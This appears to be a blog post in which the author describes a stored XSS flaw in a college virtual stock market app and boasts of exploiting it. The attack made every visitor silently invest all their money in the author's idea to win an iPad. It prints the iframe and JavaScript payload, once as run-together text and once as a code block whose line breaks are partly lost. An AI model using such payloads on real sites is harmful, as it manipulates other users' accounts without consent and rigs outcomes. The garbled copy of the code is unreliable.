 ```yaml
---
title: "Finding a vulnerability was the first step"
created: 2010-12-31
tags: 
  - xss
  - vip

---
```


Finding vulnerabilities is fun, but following through with assessing exploitability is my favorite. This is a review of something I found very entertaining. An example of using a small stored XSS vulnerability on a simple web application to do complicated results manipulation.



**Description of Application**

The web-app is a virtual stock market, the money is fake, and the companies user-generated ideas. Users are given a set amount of initial-fake money (about $20,000), then they choose which ideas they like the most, and invest. The more money invested in an idea, the more the idea's stock is worth. (The ideas must be approved by administrators before they can be traded.) Each idea also has a message board. Users can post comments on other ideas and they will appear below the idea description. Users can also vote up and down each comment. The web-app was deployed at my college with an "Improve the Learning Experience" theme for each idea. Pretty cool.

**Description of Vulnerability**

There was a stored XSS vulnerability in the idea message boards. Some HTML markup is allowed in a comment, but most elements are stripped via a tag whitelist. The input validation works pretty well, however there is an implementation problem. The web-app allows each comment author a 15-minute window to edit or remove their comment. Unfortunately there is no input validation on the message edit form.

**Exploitation Fun**

I had a mildly successful idea on the market which was struggling around 2nd and 3rd place. The 1st place idea creator was said to win an iPad. I wanted 1st place oh so badly, so I started thinking. The first round of exploitation involved storing JavaScript to make each visitor invest all of their money into my stock, silently.

```html
<iframe id="notme" src="//example.com/allideas/trade/id/{my_idea_id}" width="1" height="1"></iframe>
```

setTimeout("buyStock()", 2000); function buyStock() { var fe = document.getElementById('notme').contentDocument; var eles = fe.getElementsByTagName('td'); var inps = fe.getElementsByTagName('input'); //number of stocks to purchase var calc = inps\[5\]; //pre-calculated number of affordable stocks calc.value = eles\[12\].innerHTML; fe.form.submit(); //profit, literally }

```js
setTimeout("buyStock()", 2000);
function buyStock() {
  var fe = document.getElementById('notme').contentDocument;
  var eles = fe.getElementsByTagName('td');
  var inps = fe.getElementsByTagName('input');
  //number of stocks to purchase var calc = inps[5];
  //pre-calculated number of affordable stocks calc.value = eles[12].innerHTML;
  fe.form.submit();
  //profit, literally
}
```
